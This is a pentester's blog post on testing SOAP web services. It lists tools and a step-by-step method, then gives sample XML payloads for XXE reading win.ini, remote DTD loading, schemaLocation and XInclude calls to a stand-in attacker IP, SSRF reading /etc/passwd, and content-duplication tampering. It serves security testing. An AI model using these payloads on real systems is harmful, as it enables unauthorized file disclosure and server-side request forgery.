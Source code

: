 ```yaml
---
layout: post
title: "Too much SOAP will not clean you"
date: "2017-02-24 17:51:42 +0100"
category: blog 
link:
filename:
thumbnail:
---
```

To much SOAP will not clean but kill you - no seriously within the last
months I did way to many pentests of SOAP web services. It is 
nothing new and SOAP service have been around for quite some years - 
however a simple Google search will make you read a couple of blog posts 
and pressos from different conferences. Here, I would like to summarize 
what I have read and how I do pentests of web services: 


What tools do I use? There is nothing fancy in the list - just the regular
web application pentesters toolkit:

* NMAP
* Burp / ZAP
* SQLmap
* DirBuster or hand written bash/curl and python scripts
* SOAP-UI (if projects are available)
* Firefox Plugins (if no projects are available)
	* RestClient
	* SOAPClient


How do I do it? This are basically the same steps you would take for web
applications as well:

Scan the server
------------------
A regular Nmap scan will do it. This is not specific to web services but
it turned out to be useful and lead to many surprises for the developers.
If you encounter a port that should not be open - put it as an URL in your
browser and take a closer look. It surprising how many things you find
by simply opening such ports in a browser.

Scan for so far unknown end points / services
------------------------------------------------
This is a bit tricker. DirBuster may be a good help depending on the
service design, underlying technology and domain you are working in. It can
also be a complete waste of time. Unfortunately I have not found a strict
rule to stick to - so you will need to try for yourself. More often these
so far unknown end points offer development versions or feature branches
with more or less security. It always worth digging deeper, if you find
one.

Get to know the service methods and how they are related
-------------------------------------------------------
Start the SOAP UI test cases and run them through Burp or ZAP as you like.
The most important step is to follow the succession of requests closely.

- How does the authentication work?
- Is it needed / checked in every service call?
- Also study the WSDL - are all methods called within the provided test cases?
- Do the passive scans of Burp or ZAP provide you with new ideas?


Time to dig deeper
------------------
Once you know how every thing is working, it is time to look for spots to 
break it. First of all take a look a classical injection attacks like:
SQLi or XSS. Normally I do a couple of fuzzing rounds with different
settings to test for these vulns:

* simply replace the real value
* replace the real value url encoded
* employ the  <![CDATA[ real value ]]> tag
* last but not least - sqlmap

Especially the last one can be very useful since its content get kind of
ignored by the xml parsers.


A classic becoming hip again - external entities:
--------------------------------------------------
XML allows you to use references which can either be abused to create an
endless loop or point to file on the servers file system. In case you
work on the later - ensure that the modified parameter is either reflected
or that you know the appropriate service method to retrieve the resolved
reference. Here is a short example:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini">]>
<updateProfile>
	<firstname>Joe</firstname>
	<lastname>&file;</lastname>
	...
</updateProfile>
```

Doing it old school
-------------------
DTD are an old way of defining and injecting elements. Basically they can
be abused the same way as the external entities described above. In the 
following example loading of an additional file is presented:

```xml
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>">
<!ENTITY % remote-dtd SYSTEM "http://ip_of_your_choice/some-file.dtd">

<some_random_tag> %an-element; </some_random_tag>
<other_tag> %remote-dtd; </other_tag>
```


Extending name space definitions
--------------------------------
Name spaces help to organize data structures. However they also allow you
to specify an URL from where the definition shall be loaded. If your XML
parser is not configured to ignore these statements you can load any schema
definition you like. Keep in mind that by changing that you can include
all tags you previously defined in your schema definition. Here is a simple
example:

```xml
<roottag xmlns="http://schema/namespace/primary"
xmlns:secondaryns="http://schema/namespace/secondary"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://schema/namespace/primary
http://your_servers_ip_address/your-file1.xsd
http://schema/namespace/secondary
http://your_servers_ip_address/your-file2.xsd">

	<p>
		<secondaryns:s>
			...
		</secondaryns:s>
	</p>
</roottag>
```

SSRF - an other way to make it call home
----------------------------------------
Similar to the just described extension of name spaces you can use SSRF. 
Besides calling home to URLs of your choice you can as well try to include
files of your choice. However it hardly works with current XML parsers and 
their default configuration.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "http://your_servers_ip_addess?ssrf">
<roottag>not an entity attack!</roottag>

<!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "file:////etc/passwd">
<roottag/>
``` 


Include-Tags
------------
Include tags are very helpful as well - not only for the programmer, but
also for the attacker. Often you can simply extend the name space 
definitions and the XInclude. If the schema validation is not to strict
you may add any file you like to the response.

```xml
<?xml version="1.0" encoding="utf-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
	<content>Very special content that is protected by copyright.</content>
	<footer><xi:include href="http://your_ip_address/your_file.xsd"/></footer>
</document>
```


Content Duplication / Signature Wrapping
----------------------------------------
It is not strictly signature wrapping what I will describe here since
in my examples there are so signed messages or signed parts within a 
message. I was really surprised that this worked more often than expected.
This attack boils down to changing the response by simply duplicating
parts of the request and changing some values. Imagine the following:
You are testing a web service to update the customers address. Instead
of sending one block of address data you will send two. The first one
is left as it was. The second one you modify to the address you would
like to be stored. Send it and watch what happens. If schema validation
is active you will be stopped right away. If not most XML parsers simply
turn the last block of address data into the appropriate objects and
the services continues working with them.

This approach can also get applied to signed message parts. If the 
validation is sluggish there is a fair chance to get the signature 
validated against the original block and your modified unsigned block
will be processed by the web service.


So, keep it clean and use your SOAP wisely :)

Cheers!
